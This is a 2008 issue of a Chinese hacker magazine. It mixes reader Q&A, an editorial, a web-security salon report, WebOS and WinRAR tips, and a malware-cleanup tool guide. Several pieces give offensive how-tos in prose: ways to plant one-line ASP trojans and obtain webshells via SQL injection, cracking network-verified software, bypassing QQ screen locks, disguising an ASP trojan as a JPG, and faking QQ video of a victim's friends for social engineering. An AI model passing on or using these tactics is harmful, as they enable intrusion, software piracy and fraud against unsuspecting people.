**A：** 本人一直使用的是影子系统 2.8 中文破解版，根据你的描述我特地下载了影子系统 2008 试用版本作为测试，发现仍旧可以去除 Windows 启动菜单中的影子模式启动项，可能是你的版本问题。Windows 启动菜单其根本就是 C 盘下的 Boot.ini 文件，关于如何修改此文件达到你的目的，详情请参考 http://news.skycn.com/article/459.html，此文详尽的介绍了启动菜单的原理和修改方法。当然你也可以从原来备份的系统镜像或者是他人电脑中拷贝出此文件替换即可。
URL: http://www.nohack.cn/bbs/thread-80451-1-1.html

**Q：我用 X-Scan 扫描到了一台机子的 137 端口漏洞，但我该怎样才能实现入侵呢？**

**A：** 首先谈谈 137 端口，以下是摘自网络的一部分详细介绍：
137 端口主要用于 "NetBIOS Name Service" (NetBIOS 名称服务)，属于 UDP 端口，使用者只需要向局域网或互联网上的某台计算机的 137 端口发送一个请求，就可以获取该计算机的名称、注册用户名，以及是否安装主域控制器、IIS 是否正在运行等信息。
端口漏洞：因为是 UDP 端口，对于攻击者来说，通过发送请求很容易就获取目标计算机的相关信息，有些信息是直接可以被利用，并分析漏洞的，比如 IIS 服务。另外，通过捕获正在利用 137 端口进行通信的信息包，还可能得到目标计算机的启动和关闭的时间，这样就可以利用专门的工具来攻击。
在利用扫描器对服务器进行安全检测时，工具提供的报告只是针对漏洞的安全隐患来提醒检测者，非 Windows 远程溢出漏洞或者弱口令的结果，只能作为参考。按照以上报告信息，我们可以获取目标机器的相关信息，利用只能结合其他漏洞，实现难度较大。这里只是告诉初学的朋友，并非漏洞就是可以利用的，有些是 0DAY，有些就是鸡肋。
URL: http://www.nohack.cn/bbs/thread-80459-1-1.html

**Q：如何破解网页或论坛的会员登录密码（最主要的就是，有些网站只要输入会员密码就可查看的）？不知道有没有这方面的破解方法或者软件呢？我在贵坛看了几个小时了，都没找到具体的解决办法，那位高手教下俺啊？小弟先谢了！**

**A：** 关于一句话木马的具体原理及作用，我就不再赘述了，相关资料可以 Baidu 搜索 “一句话木马详解”。至于一句话木马的利用，那就是仁者见仁，智者见智了。你可以把一句话木马插入到相关的活动脚本起到比较好的隐蔽作用；也可以对于采用 .asp 这样的数据库中插入一句话木马；在 SQL 注入中的 dbo 权限，基本都是利用组件读取 web 目录，然后利用 log 备份得到 webshell；更有甚者可以对于那些防注入的系统中利用 asp, asa 作为数据文件的，直接把一句话木马作为注入语句引入，从而直接得到 webshell。这些都是一句话木马的应用层面，当然在实际入侵操作中的利用方法可能更多更灵活，其根本还是取决于你对一句话木马的掌握及实际针对的环境。
URL: http://www.nohack.cn/bbs/thread-78913-1-1.html

**Q：我的路由器是 NETCORE 牌子的，我想问下端口映射怎么做？比如想映射 8000 端口，要用哪个协议啊？还有就是怎样知道映射成功了啊？**

**A：** 按照你介绍的情况，该品牌路由器支持转发端口的映射，“虚拟服务名称”是可以自定义的，“内网 IP 地址”就填写网络连接自定义 IP 的地址，协议按照具体情况自选，一般 8000 为 TCP，而 “外部端口”、“内部端口” 这里填写你需要转发的端口就行了。至于是否成功，方法有很多，可以用 nc 或者 telnet 连接你公网地址的映射端口，内网可以通过防火墙或者连接状态查看。当然也有一个很通用的办法，如果是做木马的映射，直接运行服务端看看自身能否上线。
URL: http://www.nohack.cn/bbs/thread-80412-1-2.html

**Q：我想破解一个需要网络验证的软件，应该怎么样破解呢？需要些什么软件？**

**A：** 谈到网络性质的软件验证模式，必须具备一定的破解基础，不管是通过抓包还是动态跟踪，起码你必须要知道判断的协议以及地址。从早期的灰鸽子及网络僵尸来说，破解网络验证采取了 HOSTS 欺骗及本地架设 WEB 的原理，从而让网络验证成为本地验证，详细的破解方法可以参考网络文献。当然破解的方法不局限于此，有些网络验证甚至可以直接通过判断跳转或者利用逆向进行修改。
URL: http://www.nohack.cn/bbs/thread-80368-1-3.html

# 29 号信箱

- **城市 / 湖北武汉江夏**
- **论坛 ID / nzdtxhh**
- **邮件 / 9552013@163.com**
**→对于杂志内容，你有什么建议？**
很想知道《精通脚本黑客》中的内容，但是卖完了，自己缺少了提升的机会，太可惜了。对于《黑客手册》我希望多些渗透内网的内容，并非是网站的通道而入侵。侵入个人电脑更具有可行性，因为它可以融入更多的知识和侵入技巧，不是吗？
**黑手宣传委员会最高领导：** 总结出一句话：好书要早买！另外，给你个好消息：《精通脚本黑客》的电子书收藏到了 2008 年 1、2 季合订本光盘中，已经上市，你可以在当地购买或者邮购！大家除了要看黑手的文章，也要关注黑手的广告哦！

- **城市 / 江苏淮安**
- **论坛 ID / zhengwei**
- **邮件 / zhengwei804@yahoo.com.cn**
**→对于杂志内容，你有什么建议？**
对电脑有爱好的人，有谁对黑客没有向往，但又有几个能被老大们收归门下，教其本领的？希望大家能教教我们一些基本技巧！
**曾经找师傅的编辑：** 找个师傅很难，《黑手》就是个指南！每期的文章从初级到高级，几乎囊括了方方面面，更有不时推出的新书作为辅助指导。你想学习什么？快快告诉我们吧！

- **城市 / 重庆开县**
- **论坛 ID / 无**
- **邮件 / leizhen37@yahoo.com.cn**
**→对于杂志内容，你有什么建议？**
因为我去年 12 月刚入伍，暂时不能实际操作，还需过段时间，那时候可能会进一步去其它部队学习计算机。当兵之前，除了吃饭，大部分时间都在电脑前，根本没闲心看书，现在不同了，在部队里，上网机会极少，只好看书。上周上街回来在书店看到《黑客手册》，很感兴趣，也比较适合我，所以买下来了。回到部队很快就看完了，评价只有两个字：很好！
**向部队致敬的老师：** 一直以来发现，我们的军事力量还是很强大的嘛！部队的信息安全迫在眉睫，新时代的战争攻防都依靠着电脑网络的辅助分析及应用，希望我们的子弟兵们也能够完全数字化，信息化，掌握最新最牛的技术！

# 非安全

## 安全编年史

## 黑客手册
2008.09 | ¥10元

### [技术]
#### 七剑下山——dvbbs注射0day 7连发
#### Discuz!NT较弱智的SQL注入漏洞
#### 艰难入侵“中国被黑站点统计系统”
#### 高手专栏：XSS工具BeEF初探

### [文化]
#### 夜幕降临——坠落的男人
#### 低调是最牛X的炫耀方式——采访Amxku
#### 黑客编年史第四集
#### 八月Web安全沙龙采访记

**[新图书预告]**
- 《资深黑客渗透内幕答疑》
- 《非安全·黑客手册2008年第一增刊》
- 《黑客术语图文词典·中文词汇版》

# 在激情中寻找一种精神

大事年年有，今年特别多！其它偶就不乱说了，光一个奥运盛会就让世界高度关注！不过无意之中发现一个巧合，今年格鲁吉亚 VS 俄罗斯和 90 年伊拉克 VS 科威特还真是有点……呵呵，总之，这个夏季真的让我们再次体验了激情，中国印、中国红、中国结、金镶玉……所有的中国元素让向往这个东方古国的外国民众真的是很好的全面认识了一下中国！

红和黄应该是中国的国色！而这个夏天，我们看到无数的红和黄——国旗、飘带、队服……中国体育军团在自己的家门口，在熟悉的神州黄土地上，在亿万中华儿女的呐喊助威声中，史无前例地获得比历届奥运会还多的，非常有特色的金镶玉金牌。

一次次的冲击中，虽然有得有失，但奥林匹克精神会永远传递下去……貌似写着写着跑题了？这和 HACK 有啥关系？嘿嘿，这就不懂了吧！做 HACK 工作是很有前途的，但你首先要明确 HACK 的精神！那就是更高、更快、更强……哈！这是奥林匹克的精神？对啊，奥林匹克是运动，HACK 工作也是运动啊，主要锻炼的就是手指和大脑神经。

现在有种现象，一到寒暑假，就会在网上出现搞培训的、收徒弟的、找师父的各种帖子、广告，简直是泛滥。先不说其中最终令人满意的有多少，我倒是常常看到许多人抱怨：“上个月还可以利用的方法，这个月就不起作用了，仿佛自己的技术一下又回到了刚学的时候，一无知晓”。

技术是永无止境的，大家应该更好地学习理论，从硬件上学习架构，从软件上学习 0 和 1，哪怕是挑自己最感兴趣的来学。我有一种感觉：以后的 HACK，应该更需要硬件知识和软件执行的配合。当然，如果你没有兴趣，那你还是告别做一个纯 HACK 的想法吧，因为这是一项非常需要兴趣来支撑的“运动”。做 HACKER 是需要激情的，有可能会极度消耗耐力，而且还折磨神经，考验意志。为什么要说有可能？那得看你对付的目标！不确定性、RP 爆发……这些的几率也影响着 HACK，也许看来以后动手，还得先算命抽抽签，然后烧香沐浴，选个黄道吉日再开工，呵呵……

最后谈谈自己认为做个 HACK 必备的几点（非官方建议，个人也不擅长 HACK，但喜欢 MM，即 Make-Modificatory）：

- 1、低调不争，冷静适度；
- 2、深沉多思，少语执着；
- 3、狂买“黑手”（自己狂汗！）

第 1 点是让你调整好心态，并把握住一定的热情度。有了成绩不要太嚣张，太张扬。

第 2 点是让你学会“某品牌”，要善于观察和思考，并且保护好自己。少语是让你不要把什么都说出去，留点东西“打底”，执着也不是让你长时间地对着一个拿不下的目标，而是让你采用“迂回联系”的方式，也许在其它的 HACKING 过程中会悟出些什么。随着时间的过去，经验的增长，相信一切都会解决的！

如果你看完本文就情绪激动，血压上升，请翻到下页看目录找自己感兴趣的文章去吧！我可不想间接造成某位龙的传人成为另一个王朗。

如果你要证明你会找洞、造洞，请到 NOHACK 投稿！
如果你要证明你除了 HACKING，还会文采，请到 NOHACK 投稿！

# 新闻时评 八月 Web 安全沙龙采访记

XApache

**前言**

Web 应用的发展，尤其是 Web 2.0 网站的出现，使得网站更具有互动能力，众多网友的参与也越来越强。与此同时，基于 Web 的威胁也是与日俱增。据 CNCERT 统计，与 2006 年相比，网页恶意代码事件数量由 320 件增加至 1151 件，增长率近 2.6 倍。Web 安全威胁已经进入快速发展阶段，Web 的攻击手段也日新月异，如 XSS 跨站攻击、网站 SQL 注入等，导致网页被篡改、网站被攻击，这些手段甚至使 Web 成为传播木马给浏览网站用户的一个载体。

Web 攻击究竟能造成哪些危害？Web 漏洞攻击未来发展趋势是什么？有什么应急处理方法与手段？炎炎烈日，小编有幸在人民大学附近参加了一个有关 Web 安全的沙龙，本次沙龙由 IT168 联合 IXPUB 和 CHINAUNIX 两个论坛共同举办，讲的是关于最近流行的 Web 漏洞利用与企业用户对安全的态度和防范措施。这里先爆料一下截止到 2008 年 8 月 1 日的调查结果，研究 Web 和电子商务安全的朋友要注意看哦。

| 1、请问您所在的公司/单位的网络 Web 平台是如何搭建的？ | 比例 |
| :--- | :--- |
| Linux+Apache | 43.8% |
| Windows+IIS | 36.2% |
| Windows+PHP | 15.4% |
| 其它 | 4.6% |

| 2、请问贵公司/单位目前使用了下面哪些网关类安全产品？ | 比例 |
| :--- | :--- |
| 硬件防火墙 | 66.9% |
| IPS | 15.4% |
| IDS | 11.5% |
| UTM | 5.4% |

| 3、您认为目前 Web 应用会存在下列哪些安全隐患？ | 比例 |
| :--- | :--- |
| 用户商业机密外泄 | 50.8% |
| 非授权访问 | 50.8% |
| 公司网站成为黑客的利用工具（如肉鸡） | 49.2% |
| SQL 注入 | 46.9% |

| 4、请问目前贵公司/单位在防范 Web 安全隐患上已经采取哪些措施？ | 比例 |
| :--- | :--- |
| 购买了杀毒、防火墙等安全设备 | 45.4% |
| 有专职的安全运维人员 | 38.5% |
| 未制定任何 Web 安全应急预案 | 13.8% |
| 有专门的安全服务提供商 | 1.5% |

| 5、请问贵公司/单位的网络平台出现过下面哪种类型的 Web 安全事件？ | 比例 |
| :--- | :--- |
| 没有出现过 Web 安全事件 | 40.6% |
| 感染病毒/蠕虫/木马程序 | 34.6% |
| 篡改网页内容 | 26.9% |
| Web 服务器数据遭到破坏或丢失 | 25.4% |

| 6、请问所发生的 Web 安全事件对贵公司造成了哪些负面影响？ | 比例 |
| :--- | :--- |
| 没有出现过 Web 安全事件 | 33.8% |
| 对公司声誉和形象造成了影响 | 33.8% |
| 没有受到任何负面影响 | 18.5% |

| 7、请问所发生的 Web 安全事件给公司造成的经济损失有多大？ | 比例 |
| :--- | :--- |
| 小于 10000 元 | 33.8% |
| 20000--50000 元 | 23.8% |
| 50000 元以上 | 2.3% |

从上述的调查结果可以得出，目前在 Windows 平台上搭建 Web 的还是占大多数，Linux 紧随其后，只是选项中缺了 JSP。使用网关类安全产品的公司，大多选择了硬件防火墙，看来搞硬件防火墙还是有赚头的。安全隐患方面，比例都差不多，最大的还是机密外泄。

关于各企业已经采取的安全措施，我们可以发现，仍然有 13.8% 的企业没有制定任何的 Web 安全应急预案，45.4% 的企业只是依靠杀毒软件和防火墙设备在保护 Web，而这恐怕也无法起到什么实质性的保护。令人比较惊奇的是，有 40.6% 的企业宣称没有出现过 Web 安全事件，这个结果和第 6 个问题比例都很高，不知道这部分投票者有没有过于自信的成份。不过自从中美黑客大战和近几年网络病毒频繁爆发之后，国内的企业对安全这块重视程度的确有所增加，招聘时对开发人员的编程素质也严格了很多，这也是降低了 Web 安全事件的一个重要原因。

最后一个问题的结果让广大安全从业者比较欣慰，大多数企业认为在安全问题上，还是要有专职的安全运维人员才能有效提高 Web 安全性，这对《黑客手册》的忠实读者们来说未尝不是种鼓舞，搞安全是很有前途的。

在荧幕上演示完最近的调查报告后，主持人开始让参会代表们谈谈自己的看法。哦，忘记说了，此次参加沙龙的大都在圈子里混了很久，经验比较丰富。比如 Discuz 的剑心、奇虎 360 的茄子、工作单位保密的 linzi、伤心的鱼、资深网络安全撰稿人 Simeon 等。另外，还有天融信的哥们和其他一些还未接触过的朋友……这里选取一些讨论的典型话题摘要给大家。

## 关于 Web 漏洞产生的原因与危害

剑心：搞 Web 入侵的主要有两种，一种是为了金钱利益，另一种是恶作剧。而 Web 漏洞出现的原因主要在：1、输入没有过滤；2、开发语言本身原因；3、服务器问题；4、软件系统本身不完善；5、架构有问题。

奇虎 360 茄子补充：第三方的 Javascript 也是导致漏洞的原因之一。

XApache：比如一些广泛应用的统计系统。
天融信代表：网页被篡改是很大的危害。
Simeon：配置文件暴露和网站备份文件泄漏的危害也相当大。

## 关于 Web 漏洞攻击发展新趋势

奇虎 360 茄子：跨站钓鱼、挂马等还将会持续一段时间。
linzi：SQL 注射会越来越少，另外，攻击者将越来越针对网站管理者本身，而不仅仅是网站。

## 关于应急处理方法与手段

主持人：大家对市面上的一些网页防篡改系统怎么看？
Simeon：类似于网页篡改是很难防的，你保护好了首页，人家去改你调用的分页面就可以了。

XApache：比如数据库挂马，很容易就能绕过防篡改系统。
奇虎 360 茄子：防篡改应该是一个服务，光靠一个软件是不行的。

剑心：对于一个单位来说，定制一个防篡改方案是可以的，买一个通用的软件就不太行的通了。

Web 安全的主题讨论完成后，大家又开始对 IPS、IDS、DNS 网站劫持和黑客追踪等技术开始了热烈的讨论，IT168 的编辑和“黑手”的编辑也加入其中。话题开始进入开放式讨论阶段，期间剑心和茄子提到了一个程序 IDS 的概念，感觉很新颖……

几个小时的沙龙时间总是觉得不够，但总的来说，此次沙龙还是很成功的，借此

# WebOS 之初体验

上弦月

风语：每个季节都有它的热门话题，前段时间虚拟化让人们讨论得热火朝天，而现在天热了，人们需要降降温，于是纷纷转向讨论云计算。什么是云计算？你不知道？不要落伍了啊。其实对于云计算还没有一个确切的定义，目前也只是一种概念，怎么说的都有，类似 Web2.0 的东西。简单地说，就是改变现在一对一的工作模式，而是靠一组计算机（就是所谓的云）来对数据资源集中管理和控制。今天要讲的 WebOS 也算一种云计算的应用吧。

从本文您可以学到：
- 认识 WebOS
- 了解一款优秀的 WebOS——EyeOS

是不是还在为得到网易的网盘而狂发邮件？是不是还在为找一个好的网络 U 盘而到处奔波？你知道吗？早在 Web2.0 概念被炒得火热的时候，就有人提出了 Web3.0 的概念，那就是集网络存储与应用服务于一体的 WebOS。现在我们就一起去认识它。

> 小知识：
> WebOS，也可以称作 Online Operating System，就是网络操作系统，这是一种基于浏览器的虚拟操作系统，用户通过浏览器即可在网络操作系统上执行应用程序，而这些应用程序也是网络的应用程序。

使用 WebOS 不仅可以像网络硬盘那样把自己的数据资料保存在网上，还可以浏览和修改它们，比如在线编辑 Word 文档等等。目前网上的 WebOS 已经很多了，并且各有特色，还不快为自己选一个！

小提示：强烈推荐你使用火狐浏览器，因为很多 WebOS 是不支持 IE 的哦，你只能通过火狐浏览。

本文为大家介绍一款叫做 EyeOS 的 WebOS，它是开源的哦，可以下载使用，不过我们先来看看怎么在线使用吧。首先在你的浏览器里输入 EyeOS 的官方地址“http://www.eyeos.org”，网站是英文的，进去以后你可以在右上角选择语言为简体中文。
这时点击主页上的“使用 eyeOS!”（Use eyeOS!）打开 EyeOS 的登录界面，如图 1 所示（你也可以通过 http://eyeos.info 直接进入登录界面）。

我们是第一次登录，所以要先点击“New User”注册一个新用户，如图 2 所示。填上你的用户名和密码，点“Create account”就成功注册并且登录了，这时就能够看到它的桌面了，如图 3 所示。
界面都是英文的哦，英文不好的朋友可要去恶补一下了。它的桌面提供了很多程序给你使用，最上面的菜单有：收藏夹、办公（提供 Word 及日程安排等功能）、网络（提供了 FTP、Mail 等网络功能），还有许多系统工具，甚至游戏。
而在桌面上的“Applications”里，包含了所有的程序，如图 4 所示。
接着是日程和联系人管理，相信大家打开看到的界面就会用。再下面是“Home”图标，打开它就到了你的“根”文件夹了，你所有的文件都存放在这里。里面已经默认有一些文件夹了，你可以像用 Windows 一样，点击右键，选择“New file”来创建一个空文件，或选择“New folder”来创建一个新的目录。而选择“Upload files”就是把你本地计算机的文件资料上传到 WebOS，如图 5 所示。

只要选择好要上传的文件，然后点“Upload”就可以了。上传是没有进度的，不要管它，WebOS 也是“多线程”的，去做别的事情吧，上传好了它会给你提示的，如图 6 所示。
上传之后，你就可以开始你的“在线办公”了。无论你是在哪里，只要打开你的 WebOS，你所有的东西都跟你上次离开时一样。要下载你的文件，只要在文件上点右键，选择“Download”就可以了。

其它的似乎没必要啰嗦了，像文字处理、图像处理、邮件、论坛、Widget 这些，基本上都是打开就会用的东西，这就不浪费版面了。对了，最后说一下，你不用的时候一定要记得退出系统哦，安全第一啊！退出时只要按中间绿色的长方形图标，选择“Close session”就可以了。它的功能大家自己慢慢研究吧，我一次说完了，你会少很多乐趣的。

如果你觉得 EyeOS 很好，想拿回来自己用，也是可以。之前说过 EyeOS 是开源的，由 PHP 编写，只要你有一个支持 PHP 的 Web 空间，就可以自己架设一个 EyeOS！

首先，你要从网站上把源代码下载回来。在主页上有个很明显的“Download”链接，点它进入下载页面“http://eyeos.org/en/section=downloads”，选择 .zip 的包下载。然后解压缩，把里面所有的文件上传到你空间的一个目录，然后直接通过浏览器访问这个目录，就会打开安装界面，如图 7 所示。

需要配置的东西很简单，只要输入管理员的密码（两次）和你系统的名字就可以了。如果你选中下面的那个复选框，那么其他人就可以自己注册成为你的 WebOS 用户。安装完成后，你就有了一个跟官方一模一样的 EyeOS 了。如果你的网络登录官方的服务器很卡，用自己的服务器是个很好的选择哦。

EyeOS 是一个很“简约”的系统，功能不是很繁杂，但都很实用，适合做些“正经事”。如果你觉得玩得开心，还有很多 WebOS 可供你选择，我们这里也列出一些，欢迎大家选择。

- I-Cube：也是一个很简约的 WebOS，有点类似 Windows 的风格，用起来并不陌生。提供 1G 的在线存储空间，并且有自己的开发工具哦，给高手用的。网址：www.oos.cc
- Widgetop：和名字一样，它是基于 Widget 的，所以其扩展性是相当强，有好多好玩的小东西。不过可能就是因为太多了吧，就显得有些杂乱。不管怎么说，值得一玩。网址：www.Widgetop.com
- Desktoptwo：这个 WebOS 也是用 PHP 写的，界面挺美观，也都有一般 WebOS 该有的功能。网址：www.Desktoptwo.com
- TomOS：中文的 WebOS 不是很多，TomOS 就是一个。虽然说个人感觉它还是有不少提高的余地，不过它的易用性还是不错的。网址：www.qiannao.com
- Zimdesk：Zimdesk 的特点就是程序多，什么都有，连网络电视都有，所以你要是用来娱乐的话，这款 WebOS 是很不错的选择。网址：www.Zimdesk.com
- Ghost：跟我们备份系统常用的 Ghost 同名，并且特点也差不多，这个 WebOS 的特点就是很注重备份，所以你的数据放在这里还是比较安全的。如果你有很重要的东西，还是选它吧。网址：g.ho.st（好个性的域名哦，呵呵）

WebOS 就先给大家介绍这些，还有很多我没有列出来。每个 WebOS 都有它自己的特点，这可不像我们面对的 Windows，都一个样，大家完全可以根据自己的喜好选择最适合自己的网络操作系统。WebOS 才刚刚崭露头角，它会越来越丰富，越来越完善，相信有一天，它也会改变你的生活。

> **编辑点评：**
> 自从不知道谁提出了 Web3.0 主要就是 WebOS 之后，关于 WebOS 的是非就被人们评论到现在。WebOS 出现这么长时间了，顶着各种“流言蜚语”走得还不错，至少“雏形”已经有了，就是我们现在看到的这些 WebOS。可不管怎么说，现在的 WebOS 还远没有完善，究竟会怎么样呢？期待明天……

# 由“QQ 挂机锁”引发的“挂机危机”

OWENHU [O.S.T]

从本文您可以学到：
- 怎样简单地破解挂机锁

## 引子

一天翻 7 月《黑手》，发现一篇文章，叫《记一款 QQ 工具——QQ 全能王》，里面讲述了一款功能丰富而且绿色的软件“QQ 全能王”。
其中提到的几种功能引起了我的兴趣，于是便有了本文。操作！

我首先注意到的是“QQ 挂机锁”，这个功能能锁住你的电脑，锁住鼠标、屏幕，屏蔽 Ctrl+Alt+Del，让你无法通过任务管理器来结束这个程序，以达到保护数据的功效。点击“QQ 一键挂机锁”，弹出一个小窗口，并生成了一个名为 gjs.exe 的隐藏文件。点开这个隐藏文件，出现了与刚才一样的窗口（如图 1），说明这个 gjs.exe 就是挂机锁本身，而那个“全能王”只是一个快捷方式的合集罢了。
## 正文

现在正式开始分析：首先随便输入密码，出现如图 2 所示界面，鼠标点击就会出现密码框。移动鼠标，发现只能在很小一个范围内移动，如果启动任务管理器，就会提示“任务管理器被管理员停用”（如图 3）。但这个看似强健的工具是否有弱点呢？根据我的实验，发现了一个致命的缺陷：锁定之后可以用“Alt+F4”关闭（不知道作者留这个“后门”是否别有用心！），前提是一定不能将密码框打开。这样一来，这款看似强健的工具就形同虚设了……希望软件作者能在以后的版本中修补这个漏洞。
## 继续

那么其它的挂机锁是否也有这样的漏洞呢？我随后又下载了一款名为“绿色纯净挂机锁（最终版）”的软件进行测试。从下载量来看，这款绿色软件在网上十分流行，其功效可见一斑。那么它是否也有什么缺陷呢？打开软件，出现了一个窗口（如图 4），上面有两个密码框，还有一个“是否随系统启动”的选项。输入密码运行，出现了一个透明界面，上面写着“我的地盘我做主”和“解除锁定”按钮（如图 5）。
打开 360 安全卫士再运行挂机锁，可以从透明的界面上看到 KERNEL32.DLL、USER32.DLL、NETAPI32.DLL、IMM32.DLL 等几个子进程（如图 6），主要功能是内存管理、任务管理、资源控制和管理与设备输入输出有关的函数，或者提供一些附加函数的库。因此这个软件输密码只能通过附带的小键盘，键盘则完全不能起到作用。

既然这样，怎样才能让键盘恢复作用呢？我立刻想到了一个方法：如果新运行一个程序，任务栏就会恢复控制。那么怎样才能让程序自动运行呢？不用说，autorun.inf 就具有这个功能。被锁定以后，插入一个 U 盘或者一张光盘，就会弹出自动运行的窗口，随后任务栏就恢复控制了，只要点击开始—注销，再重新登录，挂机锁就被成功破解了。如果你使用了类似于 360 一类的工具，插入 U 盘时还会在屏幕右下角出现“禁用自动启动以防止 U 盘病毒传播”一类的提示，这样一来挂机锁又被破解了。当然，如果被挂机锁锁住时你的 QQ 弹出订阅消息，也可以达到同样的效果（如图 7）。也许各位看官会问：“如果对方选择了随系统启动怎么办呢？”这个更简单，重启计算机，并由安全模式进入就行了，因为安全模式只会加载重要的系统进程。照这样说来，即使是键盘失效，也不一定绝对安全，挂机的朋友们，又要小心了！

# 总结

不管是什么软件，总有它自己的缺陷所在，只要略施小计，就能使千里之堤溃于蚁穴。如果大家有什么问题，可以到我的博客留言：http://hi.baidu.com/owen_hu，也可以去 NOHACK 论坛找我，我的 ID：OWENHU。
声明：本文章某些图片因键盘被锁无法截图，请读者见谅。

> **编辑点评：**
> 看来并不是所有的软件都值得我们信任，大家在选用的时候还是要留心，如果你在公共场合使用电脑，需要长时间离开时，还是先关掉它吧。

# QQ 的小经验+社会工程学的应用

图 王兴东（曲阳）

从本文您可以学到：
- 利用假 QQ 视频进行社会工程学攻击

本文只是把自己的一些小经验和大家共享一下，高手见笑，菜鸟互交，谢谢。废话不多打，马上入正题。大家有没有在 QQ 上忽悠朋友的经历？这里教个忽悠人的好办法，上当的人有很多哦！

先推荐个工具，就是“VCam 虚拟摄像头 V3.1.0”，下面就用示例来演示一下。先在 QQ 里找个好友瞎聊，自己冒充是个 MM，他不相信就跟他进行视频。什么？你不是 MM？没关系，我可以把你变成 MM。

下面请出我们的主角，VCam 虚拟摄像头 V3.1.0。打开 VCam 虚拟摄像头，选择“屏幕捕捉”，再选择屏幕某个区域点确定，然后会出来一个捕捉屏幕的框框，如图 1 所示。
确定，然后会出来一个捕捉屏幕的框框，如图 1 所示。

框框可以自定义大小，使用很方便。把它拖到事先准备好的视频上，别人看见的就是视频上的 MM 了，这样你就可以扮成任何人和对方进行视频聊天了，如图 2 所示。
你可以到 QQ 空间找到他好友的 QQ，然后加他好友的 QQ 进行视频，把对方的视频录制下来。

接着再和你想忽悠的人视频，然后用虚拟摄像头捕捉他好友的视频。这样，他和你进行视频，其实看到的是你提供的他好友的视频，估计谁看到自己认识的人，也不会怀疑，即使你用的不是他朋友的 QQ。

运用这个工具还可以做很多事，真真假假，虚虚实实，比如可以冒充对方信任的好友进行社会工程学攻击，从而获得对方更多的资料，呵呵。虽然方法很菜，但是还是很有效果的，菜鸟朋友们可以试试。关于这款工具的更多应用，还是留给大家发掘吧。

王兴东的告白：小云我一辈子只喜欢你一个

> **编辑点评：**
> 现在在 QQ 上直接发木马可不像以前了，人们的安全意识已经提高了不少。但如果你在视频上看到了认识的人，你还会警戒吗？

## Q版黑客

冰语：
奥运、暑假正在离我们渐行渐远，学校、宿舍的轮廓正在离我们越来越近。时间一直在过，可激情不能随着时间就这样让它流逝呀！看看这期的 Q 版黑客我们为大家又准备了啥？对了，大家暑假修炼得如何了？我很是期待哦。

# WinRAR 另类小技巧

图香店读[DRT]

从本文你可以学到：
- WinRAR 的一些小技巧

## 导因

下班回来没有事干，于是就把电脑里一些没用的文件删除，不知道怎么搞的，把自己花了半个月写的文章给删除了（我是直接删除的），很是郁闷。于是我就看回收站里面的一个文件夹里有没有，但我的 PC 看不到隐藏的文件（懒得去修改），于是就想到以前用 WinRAR 的一些技巧，写下本文，经验共享。
图1 选重命名
图2 改好了

## 改扩展名

你在网吧是否有过想把 ASP 木马改成 JPG 木马，但扩展名却没有显示，这样让我们无法修改。

也许你会说，打开“资源管理器”，设置文件和文件夹属性，把显示“隐藏已知文件类型的扩展名”前的勾去掉不就 OK 了啊。但你遇到的是一家 BT 网吧，管理员已经修改了注册表，屏蔽显示“隐藏已知文件类型的扩展名”，而且注册表也被禁用。
图3

修改的方法还是有的，或许你会把马传给你的 QQ 好友，叫他帮忙改一下再传回来。这样虽然能成功，但是很麻烦，我教给大家一个方法：

把马添加到 RAR 文件里，然后在 RAR 文件里选中马单击右键，选重命名，如图 1 所示。

现在就可以随意改扩展名了，然后再把马解压回去就 OK 了，如图 2 所示。是不是很简单方便？前提是电脑里一定得装有 WinRAR，这可是常用的必备软件，一般的网吧都会有的。

## 杀毒

现在的病毒基本上都有不显示隐藏文件、不显示文件扩展名、隐藏自身、修改 Autorun.inf 自动播放文件等功能，当电脑中毒了，我会把 Autorun.inf 文件和可疑的隐藏文件删除。但这些文件都是隐藏的，只有将它们显示出来，才能删除。

“聪明”的病毒不会让我们轻易地把它们删除，一般屏蔽了相关设置和注册表，这里我们利用 WinRAR 来进行手工删除。

打开一个 WinRAR 文件，点击进入相关盘符和目录就可以看到所有被隐藏的文件了，想删除文件就出手了哦！嘿嘿，如图 3、图 4 所示。
图4

## 后续

WinRAR 以前可以免杀 ASP 木马，而且上一期有篇文章也是用 WinRAR 隐藏文件的。其实 WinRAR 是一个非常有用的软件，还有其它的什么功能就请大家多发掘吧。

编辑点评：
WinRAR 这个东东是常用必备软件之一，关于它的一些功能应用可不仅仅只是这些，大家仔细点其实还会发现好多秘密呢！

# 步步为赢：巧用 Wsyscheck 清理恶意程序

图火影忍者

从本文你可以学到：
- Wsyscheck 的灵活使用

如今，杀毒软件的种类越来越多，新病毒或恶意软件的种类也层出不穷。尽管大部分杀毒软件具有主动防御、行为判断等功能，但是，碰到新病毒的时候，这些杀毒软件在一段时间内往往也无可奈何。在这种场合下，手工清除成为唯一的选择。
一般来说，对病毒体或恶意插件的判断主要采用查看路径、查看文件名、查看文件创建日期、查看文件厂商、微软文件校验、查看启动项等方法。不过，面对浩瀚无边的注册表，以及隐藏纵深的恶意插件，手工清除的难度可想而知。

实际应用中，我们常常需要有一些安全工具的配合，以达到手工清除的目的。Wsyscheck 就是这样一款手动清理病毒木马的工具，它提供了方便的操作步骤以及详细的分析数据，大大简化了病毒木马的识别与清理工作。软件最新版本为 V1.68.33，下载地址为：http://downl.tech.sina.com.cn/download/down_contents/1186848000/36345.shtml。

# 一、小试牛刀：借助进程管理清除浏览器插件

对于插件，人们的评价有好有坏，使用过程中也是有爱有憎。现在很多病毒或木马都使用了线程插入技术，所以 Wsyscheck 专门针对这种情况进行了设置，不仅可以在进程管理页中显示出 Windows 系统中的隐藏进程，而且还可以通过不同的颜色显示出不同的进程信息。任意点击其中一个进程，都可以在下面的窗口显示出该进程包含的模块信息。在进程列表中，正规的系统进程显示为黑色；非系统的进程或文件被标注为红色；紫红色表示虽然该进程是系统进程，但其模块中包含有非微软的文件。

**第 1 步：软件设置**

打开并运行 Wsyscheck 软件，使用之前，首先需要对软件进行一些设置。单击“软件设置”菜单，弹出系统的相关设置。默认情况下，软件会选中下面的【模块、服务简洁显示】选项，这样就能够自动将微软自身的模块信息给屏蔽掉，剩下的模块就是可疑的模块信息了。为了避免病毒进程的重复加载，还可以勾选【限制外部线程的创建】来禁止新的线程生成。
**第 2 步：查看浏览器插件信息**

实际应用中，IE 等常用软件会被强制装上很多非系统的插件，这时，点击该进程就会发现被标注为红色，如图 1 所示。需要注意的是，由于现在很多木马程序是利用 IE 进程来启动运行服务端程序本身，因此并不会加载其他的恶意模块信息，大家在遇到没有标注的系统进程时也应当注意。

**第 3 步：对恶意程序进行分析和清理操作**

